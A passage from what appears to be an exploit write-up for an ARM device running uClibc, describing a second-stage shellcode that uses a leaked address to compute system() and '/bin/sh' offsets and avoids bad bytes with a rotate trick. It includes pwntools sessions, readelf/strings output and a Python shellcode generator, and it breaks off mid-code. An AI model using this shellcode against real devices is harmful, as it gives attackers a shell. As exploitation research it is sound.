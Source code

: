 ### Stage 2

The plan is to craft a shellcode that will load the "/bin/sh\0" string into the R0 register and call system(). Having defeated ASLR with **Stage1** shellcode, we can easily calculate the required addresses. The aforementioned problem of bad bytes complicates it a bit. We cannot directly put a value into the R0 register.

The NULL terminated "/bin/sh" string is located at the 0x60eb0 offset in the uClibc and the system() function is 0x5e54c away from the uClibc base address:

```
>>> from pwn import *
>>> context.arch='arm'
>>> libc = ELF("libuClibc-0.9.33.1-git.so",checksec=False)
>>> hex(next(libc.search(b'/bin/sh\0')))
'0x60eb0'
>>> hex(libc.sym.system)
'0x5e54c'


```

Other way around to quickly figure out the offsets:

```
$ strings -tx libuClibc-0.9.33.1-git.so | grep /bin/sh
  60eb0 /bin/sh

$ readelf -s libuClibc-0.9.33.1-git.so | grep __libc_system           
   855: 0005e54c   108 FUNC    GLOBAL DEFAULT    7 __libc_system


```

To safely sneak the calculated "/bin/sh" address stored in R6 into the R0 register, we will use the aforementioned technique and perform a right bit-shift using NULL in the R2 register. This is not going to change the value of the R6 or R0 registers, but the instruction will provide bad-byte-safe opcode:

```
; assuming r2 == 0
mov r0, r6, ror r2;


```

Having the leak, we can automate the **Stage2** shellcode generation with the following snippets:

```
# offset = leak - libc_base
libc_base = leak - 0x32654 
system = libc_base + 0x5e54c
binsh = libc_base + 0x60eb0

q,w,e,r = unpack('4B',pack('>I',binsh))
load_binsh = asm("""
mov r6, #%d;
mov r6, r6, lsl #8;
add r6, r6, #%d;
mov r6, r6, lsl #8;
add r6, r6, #%d;
mov r6, r6, lsl #8;
add r6, r6, #%d;
mov r0, r6, ror r2;
""" % (q,w,e,r)) 

q,w,e,r = unpack('4B',pack('>I',system))
load_system = asm("""
```